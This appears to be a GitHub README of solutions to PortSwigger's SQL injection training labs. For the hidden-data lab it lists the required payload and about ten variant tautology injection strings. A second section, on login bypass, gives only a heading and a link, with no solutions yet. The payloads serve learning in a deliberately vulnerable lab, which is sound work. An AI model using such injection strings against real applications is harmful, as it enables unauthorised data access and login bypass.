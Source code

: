 # SQL-injection
# Port Swigger SQL injection Lab Solutions <tag>

<h3>Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. Solutions
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. Solutions

  

